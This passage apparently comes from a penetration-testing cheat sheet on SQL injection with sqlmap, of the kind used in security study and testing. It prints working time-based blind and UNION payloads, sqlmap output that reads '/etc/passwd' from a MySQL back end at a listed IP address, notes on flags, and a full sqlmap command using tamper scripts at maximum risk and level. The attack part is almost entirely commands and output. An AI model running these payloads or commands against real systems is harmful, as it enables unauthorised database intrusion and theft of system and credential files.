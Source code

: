	    Type: time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	    Payload: id=3 AND (SELECT 2164 FROM (SELECT(SLEEP(5)))jTxc)

	    Type: UNION query
	    Title: Generic UNION query (NULL) - 3 columns
	    Payload: id=3 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a6b71,0x6c73436f5761774842726e42666b4a67566c4a6766536f4e596d58744c7468527257774359507142,0x717a767a71)-- -
	---
	[16:17:09] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	[16:17:09] [INFO] fingerprinting the back-end DBMS operating system
	[16:17:09] [INFO] the back-end DBMS operating system is Linux
	[16:17:09] [INFO] fetching file: '/etc/passwd'
	do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
	[16:17:09] [INFO] the local file '/home/R0cK/.local/share/sqlmap/output/104.248.164.187/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
	files saved to [1]:
	[*] /home/R0cK/.local/share/sqlmap/output/104.248.164.187/files/_etc_passwd (same file)

	[16:17:09] [INFO] fetched data logged to text files under '/home/R0cK/.local/share/sqlmap/output/104.248.164.187'

	[*] ending @ 16:17:09 /2021-01-30/

- *SQLMap won't show the file content in the output but it stores the file on the local machine. Here the path is `/home/R0cK/.local/share/sqlmap/output/104.248.164.187`.*
- Notes:  

***--Batch:*** *No questions from sqlmap*  
***--force-ssl:*** *Force ssl*  
***--dbms:*** *If we know the database type, we can specify it directy to speed up the output*  
***
### Identify `Time-based` injection with sqlmap.

- Identify the database

		sqlmap -r req.raw --batch --level 5 --threads 10 --risk 3 --dbms mysql --tamper=charunicodeescape --proxy http://127.0.0.1:8080 --technique=T

		     ___
		       __H__
		 ___ ___[.]_____ ___ ___  {1.5#stable}
		|_ -| . [,]     | .'| . |
		|___|_  [.]_|_|_|__,|  _|
		      |_|V...       |_|   http://sqlmap.org

		[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
